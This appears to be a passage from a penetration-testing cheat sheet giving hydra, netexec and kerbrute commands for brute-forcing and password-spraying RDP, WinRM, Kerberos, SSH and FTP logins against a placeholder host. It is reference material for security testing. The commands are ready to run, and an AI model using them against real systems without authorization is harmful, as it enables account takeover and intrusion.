 ```
hydra -vV -l bob -P /path/to/passwords.txt -t 1 rdp://10.0.0.1
```

## WinRM
  *  `netexec` for WimRM bruteforcing

```
netexec winrm 10.0.0.1 -u bob -p /path/to/passwords.txt -d example.local --continue-on-success
netexec winrm 10.0.0.1 -u bob -p /path/to/passwords.txt --local-auth
netexec winrm 10.0.0.1 -u users.txt -p /path/to/passwords.txt --local-auth
```

## Kerberos
  *  `kerbrute` for Kerberos bruteforcing
  *  Clock skew errors can also apply here
      *  Always be verbose to catch clock errors
      *  [Sync time](https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/kerberoast#persistence) with [`ntpdate`](https://linux.die.net/man/8/ntpdate) or [`rdate`](https://linux.die.net/man/1/rdate)

```
./kerbrute bruteuser --dc 10.0.0.1 -d example.local -v /path/to/passwords.txt bob
./kerbrute bruteforce --dc 10.0.0.1 -d example.local -v /path/to/users-and-passwords.txt
./kerbrute passwordspray --dc 10.0.0.1 -d example.local -v /path/to/users.txt password
```

## SSH
  *  `hydra` for SSH bruteforcing
  *  `netexec` for older SSH services

```
hydra -l bob -P /path/to/passwords.txt -vV ssh://10.0.0.1
hydra -L users.txt -e nsr -vV ssh://10.0.0.1
hydra -L users.txt -P /path/to/known/passwords.txt -vV ssh://10.0.0.1
```

```
netexec ssh 10.0.0.1 -u bob -p /path/to/passwords.txt
netexec ssh 10.0.0.1 -u users.txt -p /path/to/passwords.txt
```

## FTP
  *  `hydra` for FTP bruteforcing

```
hydra -l bob -P /path/to/passwords.txt -vV ftp://10.0.0.1
hydra -L users.txt -e nsr -vV ftp://10.0.0.1
hydra -L users.txt -P /path/to/known/passwords.txt -vV ftp://10.0.0.1
```

## MySQL
  *  `hydra` for MySQL bruteforcing
